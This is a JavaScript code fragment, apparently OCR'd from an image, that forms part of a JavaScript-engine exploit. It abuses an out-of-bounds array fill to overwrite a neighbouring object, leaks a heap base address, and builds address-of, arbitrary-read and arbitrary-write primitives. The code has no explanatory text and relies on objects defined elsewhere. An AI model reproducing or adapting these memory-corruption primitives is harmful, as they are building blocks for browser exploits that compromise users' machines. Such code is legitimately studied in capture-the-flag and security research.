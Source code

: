 ```javascript
Number.prototype.hex = function() {
  return '0x' + this.toString(16);
};

Number.prototype.f2i = function() {
  float_view[0] = this;
  return int_view[0];
}

// make itself long enough to overwrite b
a.fill(0xff, 28, 30);
a.fill(0xff, 36, 38);

// leak base
// mmap_base = BigInt(d.charCodeAt(-0xe6c0) + (d.charCodeAt(-0xe6c0 + 1) << 8)) << 32n
mmap_base = BigInt(a[0x13c] + (a[0x13d] << 8)) << 32n
console.log('mmap base:', mmap_base.hex())

function addr_of(x) {
  c[0] = x
  offset = a[0x188] + (a[0x189]<<8) + (a[0x18a]<<16) + (a[0x18b]<<24)
  return mmap_base + BigInt(offset) - 1n
}

function leak(address, bytes=8) {
  address -= 8n
  hi = Number(address >> 32n)
  lo = Number(address & 0xffffffffn) + 1

  for(let i = 0; i < 4; i++) {
    bt = hi & 0xff
    hi >>= 8
    a.fill(bt, 0x13c+i, 0x13d+i);
    bt = lo & 0xff
    lo >>= 8
    a.fill(bt, 0x140+i, 0x141+i);
  }

  mask = 0xFFFFFFFFFFFFFFFFn >> BigInt(64-8*bytes)
  return b[0].f2i() & mask
}

function leak_comp_untag(address) {
  return mmap_base + leak(address, 4) - 1n
}

function write(address, value) {
  address -= 8n
  hi = Number(address >> 32n)
  lo = Number(address & 0xffffffffn) + 1

  for(let i = 0; i < 4; i++) {
    bt = hi & 0xff
    hi >>= 8
    a.fill(bt, 0x13c+i, 0x13d+i);
    bt = lo & 0xff
    lo >>= 8
    a.fill(bt, 0x140+i, 0x141+i);
  }

  b[0] = value.i2f()
}

```